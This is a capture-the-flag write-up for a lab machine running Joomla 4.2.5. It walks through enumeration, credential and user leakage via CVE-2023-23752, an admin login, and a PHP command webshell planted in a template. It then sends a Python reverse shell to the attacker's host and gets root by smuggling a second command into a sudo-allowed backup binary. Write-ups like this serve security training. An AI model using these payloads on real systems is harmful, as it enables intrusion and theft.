





# Samurai Writeup

**Difficulty:** Easy
**Target:** 10.1.188.96
**Objective:** Enumerate the target, gain a foothold, and escalate to root to capture both flags.

---

## Recon

### Port Scan

    nmap -sCV 10.1.188.96

Two ports are open:

    22/tcp  open  ssh   OpenSSH 8.9p1 Ubuntu 3ubuntu0.13
    80/tcp  open  http  Apache httpd 2.4.52 (Ubuntu), title "Samurai"

SSH with no credentials is not a starting point, so the web server is the entry point.

### Web Enumeration

    gobuster dir -u http://10.1.188.96/ -w /usr/share/wordlists/dirb/common.txt --exclude-length 3185

Notable results:

    /administrator/   (301)
    /api/             (301)
    /cache/, /includes/, /media/, /modules/, /plugins/, /components/, ...

The `/administrator/` path returns a Joomla administrator login page. Fetching the page source shows the generator tag `Joomla! - Open Source Content Management`.

### Technology Fingerprinting

The Joomla version is in the manifest file:

    curl -s http://10.1.188.96/administrator/manifests/files/joomla.xml | grep -i "<version>"
    <version>4.2.5</version>

Joomla 4.2.5 falls in the range affected by CVE-2023-23752, an improper access check in the Joomla 4.x web API.

---

## Unauthenticated Configuration Disclosure (CVE-2023-23752)

The API returns the site configuration to anonymous users when the `public=true` parameter is set:

    curl -s "http://10.1.188.96/api/index.php/v1/config/application?public=true" | python3 -m json.tool

The response includes the database connection settings:

    "user": "joomla425"
    "password": "Pa847word987@Joomla456"
    "db": "Dbjoomla"
    "dbprefix": "iemj4_"

Running the public PoC for this CVE returns the same credentials.

The database host is `localhost` and MySQL is not exposed, so these credentials can't be used to connect directly. They are still useful for testing against other services.

### User Enumeration

The same API bug exposes the Joomla user list:

    curl -s "http://10.1.188.96/api/index.php/v1/users?public=true" | python3 -m json.tool

The only account returned is a Super User:

    "name": "Oda"
    "username": "Miyamoto"
    "group_names": "Super Users"

---

## Administrator Login

Attempts with the database username `joomla425` failed. That account is only used by the database, not by Joomla.

Logging in to `http://10.1.188.96/administrator/` as `Miyamoto` with the leaked password `Pa847word987@Joomla456` succeeded. The SSH login with the same account failed, because no Linux account named Miyamoto exists on the box.

---

## Template Code Injection to Webshell

Super Users can edit the template files from the admin panel. The template editor path is:

    System > Site Templates > Administrator Templates > atum > index.php

A single line was added at the top of the file:

    <?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; system($_REQUEST["cmd"]); echo "</pre>"; die; } ?>

Testing it:

    curl -s "http://10.1.188.96/administrator/index.php?cmd=id"
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

Two earlier attempts did not work. Adding the same line to the site template `offline.php` did nothing, because that file only runs when the site is in offline mode. Adding it to the site template `index.php` also did nothing, because the root `index.php` is a separate static page that does not use the Joomla template.

---

## Reverse Shell

A listener was started on the attacker machine, on the VPN interface:

    nc -nlvp 9999

Then a Python reverse shell was sent through the webshell:

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.200.126.27",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

The connection arrived and gave a shell as `www-data`.

---

## User Flag

Searching the filesystem for the user flag:

    find / -name user.txt 2>/dev/null
    /var/www/user.txt

    cat /var/www/user.txt
    flag{Tachi_794–11****

---

## Privilege Escalation via sudo

Checking sudo rights:

    sudo -n -l

    User www-data may run the following commands on streetcoder:
        (root) NOPASSWD: /opt/backup/DbMaria

The `www-data` account can run this binary as root without a password. Searching the strings in the binary shows what it does:

    strings /opt/backup/DbMaria | grep -iE "pass|user|db|maria|key|usage"
    Usage: %s <database>
    mariadb-dump --socket=/run/mysqld/mysqld.sock -u root %s > /tmp/backup.sql

The program builds a shell command from its argument and runs it as root. Adding a `;` after a normal argument starts a second command. The trailing `#` comments out the output redirect, so the output goes to the terminal:

    sudo /opt/backup/DbMaria 'x;cat /root/root.txt #'

The output includes the root flag after the expected `mariadb-dump` error about an unknown database `x`.

---

## Sticking Points and Lessons

### Wrong username guess for the leaked credentials

The leaked password was first tried against the database account name `joomla425` over SSH and the admin login. Both failed. The database account is not a Joomla or system account. The user list endpoint was the fix: it revealed the real Super User `Miyamoto`. Check the user list before guessing usernames.

### Trying to use the webshell in the wrong template

The first webshell line went into `offline.php`, which only runs in offline mode. Then it went into the site template `index.php`, which the root page does not load. Only the administrator template `atum/index.php` responded. Before planting a webshell, confirm which file the target route actually loads, and test with a harmless command such as `id` to confirm the code runs.

### Confusing the Linux and Joomla credentials

A `su` attempt with the Joomla password failed. The command was run as `su` with no username, so it tried to switch to root. A later SSH attempt as Miyamoto also failed because no matching Linux account exists. Joomla accounts and Linux accounts are separate. Check `/etc/passwd` before trying a password on a system login.

### Reading the sudo binary before running it

The sudo rule allowed `DbMaria` to run as root. Its behaviour was not clear at first, and the file was described as encrypted. `strings` showed the real behaviour: it builds a shell command from its argument. Read the strings and usage output of any binary that sudo allows before running it.

### Output redirect swallowed the flag

The first version of the injection sent the output to `/tmp/backup.sql`, so nothing printed to the terminal. The trailing `#` comments out that redirect so the output prints directly. If a command's output seems to disappear, check for a redirect in the code and whether it can be commented out.

### Check these again on a future run

Recheck the Joomla version before relying on a CVE. Verify that a saved template edit is actually live by testing it with a harmless command. Confirm the exact characters in any flag before submitting, since this flag contains an en dash. Confirm which account a credential belongs to before trying it on a system login.

---

## Flags

**User flag: `flag{Tachi_794–11****`**
**Root flag: `flag{Katana_1603-1****`**